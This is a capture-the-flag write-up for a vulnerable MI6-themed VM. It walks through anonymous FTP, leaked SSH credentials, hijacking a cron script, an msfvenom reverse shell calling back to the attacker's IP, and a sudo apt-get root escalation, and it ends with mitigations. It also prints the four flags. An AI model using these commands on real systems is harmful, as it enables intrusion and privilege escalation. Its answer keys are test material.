


# MI6configuration

## Challenge

We recently acquired the ip address to a computer at MI6 and it seems like they might have made some mistakes. Can you hack it using their misconfigurations and get all their important data? (Download the vm file and power it on. Get the ip address and start hacking!)

[Mi_6.ova](./Mi_6.ova)


## Solution

### Initial Setup

The first step is download the OVA file and import it into the hypervisor of your choice.  I used VirtualBox for this challenge, but other options such as VMWare should work as well.  When importing, make sure to adjust your VM's memory and CPU settings so as not to overwhelm your system.  You'll also want to configure the network adapter so that you can access the VM from your attacking machine.  I initially used a Host-only Network, since that restricts traffic to the local device.  If you're on a public or enterprise network, this is highly recommended so as to avoid sending port-scanning traffic and malicious payloads over the network.  Later on in the challenge, I switched to a Bridged Adapter in order to be able to access the internet from the target machine, while still allowing the VM to have its own IP address (thus permitting SSH access from my host machine).

At this point I should mention that there are other, easier ways of solving this challenge, but they likely weren't the intended methods.  One method that I considered during the competition was using the bootloader settings to gain root access.  In a real life scenario, this would likely only be an option if you had physical access to the victim machine.  I didn't end up going this route because I wanted to see if I could fully compromise the machine with only remote access, but I'll include a section on how one might go about this method [at the end of the writeup.](#alternate-solution)


### Part 1

The first step is to run an nmap scan to identify open ports on our target system.  We'll need to first obtain the IP address of our VM in order to do this.  As mentioned earlier, I started out with the VM running on a Host-only Network, so I can use the known IP range for that network to scan for the VM.  In my case the IP range was `192.168.56.1` through `192.168.56.199`, so I just scanned all `192.168.56.*` addresses using `nmap`.  This can be done with the command `sudo nmap -sn 192.168.56.0/24`


My host machine is `192.168.56.1` on the Host-only Network (as can be confirmed by `ifconfig`), so the VM must be `192.168.56.6`.  We can even see that `nmap` correctly identifies it as a virtual machine running in VirtualBox.

The next step is to scan the VM for open ports.  For the sake of being thorough you can use the `-p-` flag to scan all ports, but just scanning the default top 1000 ports is sufficient for this challenge.  The command I used was `sudo nmap -sC -sV 192.168.56.6`.


According to the scan, ports 21 and 22 are listening for `ftp` and `ssh` traffic respectively.  Because we used the `-sC` flag, `nmap` was even kind enough to inform us that anonymous `ftp` access is allowed and will permit access to two files, `flag1.txt` and `not_my_passwords.txt`.

With this information, we know more than enough to connect to the target machine over `ftp`.  Using the command `ftp 192.168.56.6`, a username of `anonymous`, and a blank password, we can connect to the VM to retrieve the two files.  You can use the `get [filename]` command to download the files, or `get [filename] -` to just print the file contents to the console.


`flag1.txt`:

```text
byuCTF{www-data_anonymous_ftp}
```

`not_my_passwords.txt`:

```text
james_bond:imthebestAgent007
```

We now have our first flag, `byuCTF{www-data_anonymous_ftp}`, as well as a username and password that will likely come in handy for finding the next flag!


### Part 2

Now that we have a username and password, we can try taking advantage of the open `ssh` port.  Using the username `james_bond` and the password `imthebestAgent007`, we are successfully able to connect.  With just a little effort, the second flag isn't too difficult to find.  `james_bond`'s home folder contains a directory called `secret`, and inside is the file `flag2.txt`.

`flag2.txt`:

```text
byuCTF{james_bond_ftp_leaked_passwords}
```

*Pro Tip: Using the `bash` command to start a new shell with tab completion and arrow key history enabled.  By default, the `sh` shell that you start out in will not have these features.*


### Part 3

With some more searching you'll find that there are two other folders in the `/home` directory.  In addition to `james_bond`, there are `q` and `Shared`.  Looking at the directory permissions, we'll see that only `q` has access to the `q` directory.  `Shared` is also owned by `q`, but it additionally allows access to members of the `agents` group.  We can check which users comprise different groups with the `getent group` command.



The group memberships in the image above show us that as `james_bond`, we should have access to the `Shared` folder since we are in fact part of the `agents` group.  While we're at it, we can also check the `sudo` group and will find that only `q` is allowed to use the `sudo` command.

Inside the `Shared` folder, we'll find a file called `update.sh`:

```bash
#!/bin/bash
#This command will run every two minutes and scan for running processes
#Doing so will protect us from being hacked
#Please do not change this file
ps -aux
```

It says "Please do not change this file," which of course means that's exactly what we'll need to do.  We aren't able to add new files to the Shared folder, but luckily we can at least edit `update.sh`.  One of the first we'll want to do is granting wider permissions to the folders we've seen so far, as well as their contents.  If successful, this will allow us to see into `q`'s folder and will make it possible to write out the results of commands executed by `update.sh` to new files.

Using `nano` or `echo`, we can add the following lines to `update.sh`:

```bash
chmod 777 -R /home/james_bond
chmod 777 -R /home/q
chmod 777 -R /home/Shared
```

After waiting a moment for the script to run, we'll see that we were able to grant further access to the `q` folder and the `Shared` folder.


Inside the `q` folder, we find our third flag!

`flag3.txt`:

```text
byuCTF{q_cronjob_manipulation}
```


### Part 4

Now that we have write access to some folders, we can use the `update.sh` script to run more commands and save their output to files.  One of the first things we'll want to do is figure out what account the script is being run under.  Adding the following line to `update.sh` will print the name of the account to a file:

```bash
whoami > /home/Shared/whoami.txt
```

Once the `whoami.txt` file gets created, we can `cat` the contents of the file and will see that the `update.sh` script is being run as `q`.  This means that any commands executed bby the script will have the same permissions as `q`, and this would also explain why we were able to use the script to change the permissions of the `q` and `Shared` folders (both owned by `q`), but not the `james_bond` folder.


Now we can run commands as `q`, but not having an interactive shell is a bit of a pain, and it's inconvenient having to wait up to two minutes to get the output from commands.  While gaining an interactive shell might not be required to get the last flag, either way it will make our life a lot easier, and it would be pretty cool too.  One way we can do this is by using `update.sh` to launch a reverse shell, and then connecting to it from our host machine.

#### Reconfiguring the VM's Network

You will probably want to switch your VM's network over to a Bridged Adapter at this point if you haven't already.  If you switch later, you will need to rebuild the payload later on with an updated IP address.

Once you've changed the setting and rebooted your VM, the easiest way to find its new IP address (assuming you have permission to scan the network you are on) will be to do what you did in [Part 1](#part-1).  This time however, you will want to scan a different network range.  In my case the range could be found by running `ifconfig`, finding the `inet` address under `en0` and appending `/24` to it.  If you don't have permission to scan the network you are on, I recommend taking an alternate route.  We'll have to cheat a little at our "remote access only" rule we set for ourselves at the beginning of this walkthrough, but to be fair, if this was a real scenario we wouldn't have to worry about reconfiguring all these network settings in the first place.  In your VM, login to the `james_bond` account, and then `ping` the IP address of your machine (as found in `ifconfig`).  In my case, the command is:

```bash
ping 10.37.178.115
```

With the `ping` command still running on the VM, run the following command on your host machine:

```bash
sudo tcpdump | grep ICMP
```

Once IP addresses start showing up, you can quit both the `tcpdump` and the `ping` with Ctrl-C.  The IP address that does not match the one you were pinging is the new IP address of your VM, and the one you will want to SSH into from now on.


#### Crafting a Payload

Now that we have access to the machine reconfigured, we can get back to privilege escalation.  The reason we wanted to set up the Bridged Adapter sooner rather than later is that the reverse shell we are about to create will be reaching out the host machine using its IP address.  If we were to change the network later, it would change which IP address we use to communicate with our host machine.  Using Metasploit's `msfvenom`, we can easily craft our payload to send to the VM.  (You could probably just use a `netcat` script for this part instead, but the quality of the interaction once you have a shell wouldn't be as good without some extra work.)

On my host machine I used the following command to create the payload:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.37.178.115 LPORT=4444 -f elf -o reverseshell
```

Here is an explanation of the different options being used:
- `-p linux/x64/shell_reverse_tcp` - This specifies which payload type to use.  The one used here will launch a reverse shell and will be designed to run on a 64-bit machine running Linux.
- `LHOST=10.37.178.115` - `LHOST` stands for `local host` and is used to specify which address the payload should communicate with.  It should be set to the IP address of your host machine.
- `LPORT=4444` - `LPORT` stands for `local port` and is similarly used to specify how the payload should communicate with our host machine.  If the IP is telling the payload which address it should go to, the port is essentially telling it which door it should be using at that address.  `4444` is typically the default port used by `msfconsole`.
- `-f elf` - Output the payload as an Executable and Linkable Format (ELF) file, which can be executed on Linux.
- `-o reverseshell` - Save the payload as a file called `reverseshell`

Now that you've created a payload, you can send it over to the target machine using `scp`:

```bash
scp reverseshell james_bond@10.37.147.110:/home/Shared/
```

Before we execute start the reverse shell, we will want to set up a listener on our host machine.  Since we used an `msfvenom` payload, we will use `msfconsole` to listen for the shell. After launching `msfconsole` in another window, enter the following commands (substituting in your own machines IP address) to configure the options for the handler:

```bash
use multi/handler
set payload linux/x64/shell_reverse_tcp
set LHOST 10.37.178.115
run
```

*\*Note: If you want, you can use the command `show options` to display the different configuration settings of the loaded module and check what they are set to.*


Now that we are listening for a connection, we can launch our reverse shell.  While we could run the shell as `james_bond`, that would only give us access as `james_bond`, which we've already achieved through SSH.  Instead, we will leverage the `update.sh` script to (hopefully) gain access as `q`.

On the target machine, first make sure to add execute permissions to `reverseshell` so that `q` is allowed to run it.  This can be done with the following:

```bash
chmod 777 reverseshell
```

Next, edit `update.sh` to include this line:

```bash
/home/Shared/reverseshell
```

Now, direct your eyes back to the window running `msfconsole`, and if all goes as planned, a connection should show up in just a moment.  Once it does, go ahead and ask the age-old existential question, `whoami`.  The simple one letter response, `q`, is all the confirmation we need to know that we have successfully launched a reverse shell and gained access to `q`'s account!



You'll notice that it doesn't look much like a shell at this point though.  The command `shell` will tell Metasploit to search the target machine for a program that will provide a more presentable interface.  (Make sure to press enter after it says `Found bash at /bin/bash` to display the new shell prompt.)


Now that we have access to `q`'s account, we can start taking a look around.  You'll notice the `flag3.txt` file in his home directory, but we already got that in [Part 3](#part-3).  The next best place to check will probably be the `/root` directory, but even as a `sudoer`, we won't be able to access that folder without entering our password.  So what good is being a user with `sudo` privileges if we don't even know their password?  Well, as it turns out, `sudo` can be configured to allow users to use certain commands without requiring a password.  We can check for this with the command `sudo -l`.  With this command, we'll see that `q` has permission to run any command with `sudo`, and that we won't be prompted for a password when running `sudo apt-get`.


In case you were getting tired of editing `update.sh` with `nano`, now is your chance to install `vim`!  But in all seriousness, what good is being able to run `apt-get` as `root`?  Well, a lot actually.  By leveraging our `sudo` access to `apt-get`, we can do something called "living off the land", which, in the context of penetration testing, means taking advantage of programs that are already present on a computer to accomplish a task such as privilege escalation.  [GTFOBins](https://gtfobins.github.io) is an excellent resource for determining how we can use the binaries already present on a machine to our advantage.  The [entry for apt-get](https://gtfobins.github.io/gtfobins/apt-get/) is fairly short, but it will tell us exactly what we need to know:

> If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.


You may want to adjust the command slightly to use `bash` instead of `sh`:

```bash
sudo apt-get changelog apt
!/bin/bash
```

Note that this is the point where a connection to the internet is required.  If you try to run this command while still running on the Host-only network, it will fail to load the changelog, and the second command will not run.


If you do have a connection to the internet however, `apt-get` will update the changelog, and you will then be able to execute arbitrary commands by prefixing them with `!`.  (Some text will show up after the first line executes, but you can just ignore it—either press enter once if you pasted both lines in together, or if not, press enter as many times as you feel like it and then type the second command.)

After entering `!/bin/bash`, you'll see that you are dropped into a root shell, as signified by both the name `root` and the `#` in the prompt.  At this point, we have full privileges on the machine to view the contents of any directory or file.  Inside the `/root` directory, we will find the final flag!


`flag4.txt`:

```text
byuCTF{root_sudo_incorrectly_configured}
Good job Hacking!
Good luck on the other challenges!
```

## Conclusion

It took some work to get all four flags, but it was well worth it!  To summarize what we learned, here are the vulnerabilities we took advantage of and how we might mitigate them if this were our own machine:

- **Anonymous FTP access** - Disable anonymous FTP access.  Better yet, disable FTP altogether and use SFTP if you need to transfer files.  Even with anonymous access disabled, it's a very bad idea to use FTP because data is transferred in plaintext.  Not only does this mean someone listening in could see any files you are transporting, but they would be able to see your username and password as well.  Yikes!
- **Passwords stored in plaintext** - In *addition* to not storing your passwords in plaintext in a location where they are publicly accessible, don't store your passwords in plaintext at all!  If you don't want to forget your password, use a password manager to store it securely.  And don't tell me you won't forget it because you use the same one for everything.  That's just as bad.
- **Password-based SSH authentication** - While not necessarily be considered a vulnerability, password-based authentication is less secure than using public-key authentication.  If possible, disable password authentication in your `sshd_config` file and use public-key authentication instead.  Public-key authentication also has the added bonus of making it so you don't have to enter your password everytime you want to connect to the remote device that you configured it on.
- **Unsecured crontab scripts** - `update.sh` was being run as a cron job, meaning it was scheduled to run at specified intervals.  Because the cron job belonged to `q`, the script was executed with `q`'s permissions.  We were able to take advantage of this by modifying the file, but this could have been easily prevented by restricting permissions to only those who needed access to the script.  This could have been in the form of simply restricting write access to only `q`, or moving `update.sh` into `/home/q` where we wouldn't have been able to see it at all.
- **NOPASSWD in /etc/sudoers** - Be extremely careful what commands you allow to be run with `sudo` without a password.  Even if there aren't any publicly known ways to abuse these commands for privilege escalation, there's always a chance that it just hasn't been disclosed yet.  It can be a pain to re-enter your password all the time, but it just might be your last line of defense.


## Appendix

### Alternate Solution

As I mentioned at the beginning, there are other ways to obtain the flags, although they may not be possible in a real-world situation.  One of these methods is to use the bootloader menu to boot into recovery mode.  In a real-world situation, this would likely require us to have physical access to the machine in order to interrupt the boot process.  This can be done by holding shift while the VM is booting:


After selecting recovery mode, you will be given a few options including the ability to drop into a root shell.  Select this option, and you will gain full access to the filesystem:


From here, we can find the locations of all of the flags with a single command:

```bash
find / -name "flag*.txt"
```

This command will search for all files on the system matching the name `flag*.txt`, with `*` acting as a wildcard.  The output of this command is shown below:


The flags can be found in the following locations:

```text
/ftp/flag1.txt
/home/james_bond/secret/flag2.txt
/home/q/flag3.txt
/root/flag4.txt
```
